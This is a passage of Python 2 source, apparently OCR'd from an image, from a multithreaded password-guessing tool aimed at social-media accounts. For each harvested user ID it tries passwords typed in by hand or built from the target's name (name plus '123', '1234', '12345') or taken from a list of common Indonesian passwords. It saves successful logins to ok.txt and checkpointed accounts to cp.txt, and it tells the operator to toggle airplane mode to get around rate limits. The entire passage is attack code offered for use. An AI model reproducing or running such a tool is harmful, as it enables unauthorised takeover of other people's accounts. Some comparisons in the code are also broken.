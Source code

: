 	elif profers == "3":
		bukanmaen = raw_input("\n%s [%s•%s] Crack With Pass auto/Manual [a/m]\n %s[%s•%s] Choose: "%(p,k,p,p,k,p))
		if bukanmaen in ["m","M"]:
			with ThreadPoolExecutor(max_workers=30) as coeg:
				asu = raw_input("%s [%s•%s] Example password: Pakistan,khankhan,khan1222\n %s[%s•%s] Pass list: "%(p,k,p,p,k,p)).split(",")
				if len(asu) =="":
					exit("%s [%s!%s] Unknown!"%(p,m,p))
				print("\n%s [%s•%s] Result OK saved to : ok.txt\n %s[%s•%s] Result CP saved to : cp.txt"%(p,k,p,p,k,p))
				print("%s [%s•%s] turn on mode airplane (5 sec)"%(p,k,p))
				print("%s [%s•%s] reset APN connections (5 sec)\n"%(p,k,p))
				for user in id:
					uid, name = user.split("<=>")
					coeg.submit(mobile, uid, asu)
			hasil()
		elif bukanmaen == ["A","a"]:
			with ThreadPoolExecutor(max_workers=30) as coeg:
				print("\n%s [%s•%s] Result OK saved to : ok.txt\n %s[%s•%s] Result CP saved to : cp.txt"%(p,k,p,p,k,p))
				print("%s [%s•%s] turn on mode airplane (5 sec)"%(p,k,p))
				print("%s [%s•%s] reset APN connections (5 sec)\n"%(p,k,p))
				for user in id:
					uid, name = user.split("<=>")
					frist=name.split(" ")
					if len(frist)>=6:
						pwcuk = [ name, frist[0], frist[0]+"123", frist[0]+"12345", frist[0]+"1234" ]
					elif len(frist)<=2:
						pwcuk = [ name, frist[0], frist[0]+"123", frist[0]+"12345", frist[0]+"1234" ]
					elif len(frist)<=3:
						pwcuk = [ name, frist[0], frist[0]+"123", frist[0]+"12345", frist[0]+"1234" ]
					else:
						pwcuk = [ "sayang", "bismillah", "anjing", "bangsat", "freefire", "katasandi", "indonesia", "sayangkamu", "doraemon", "merdeka", "sepeda", "kontol", "jembut", "legend", "kuontol", "password", "samsung", "xiaomi", "kacang", "kelinci", "youtube", "facebook" ]
					coeg.submit(mobile, uid, pwcuk)
			hasil()
			
	elif profers == "4":
		bukanmaen = raw_input("\n%s [%s•%s] Crack With Pass auto/Manual [a/m]\n %s[%s•%s] Choose: "%(p,k,p,p,k,p))
		if bukanmaen in ["m","M"]:
			with ThreadPoolExecutor(max_workers=30) as coeg:
				asu = raw_input("%s [%s•%s] Example password: Pakistan,786786,khankhan\n %s[%s•%s] Pass list: "%(p,k,p,p,k,p)).split(",")
				if len(asu) =="":
					exit("%s [%s!%s] Unknown!"%(p,m,p))
				print("\n%s [%s•%s] Result OK saved to : ok.txt\n %s[%s•%s] Result CP saved to : cp.txt"%(p,k,p,p,k,p))
				print("%s [%s•%s] turn on mode airplane (5 sec)"%(p,k,p))
				print("%s [%s•%s] reset APN connections (5 sec)\n"%(p,k,p))
				for user in id:
					uid, name = user.split("<=>")
					coeg.submit(xfb, uid, asu)
			hasil()
		elif bukanmaen == "a":
			with ThreadPoolExecutor(max_workers=30) as coeg:
				print("\n%s [%s•%s] Result OK saved to : ok.txt\n %s[%s•%s] Result CP saved to : cp.txt"%(p,k,p,p,k,p))
				print("%s [%s•%s] turn on mode airplane (5 sec)"%(p,k,p))
				print("%s [%s•%s] reset APN connections (5 sec)\n"%(p,k,p))
				for user in id:
					uid, name = user.split("<=>")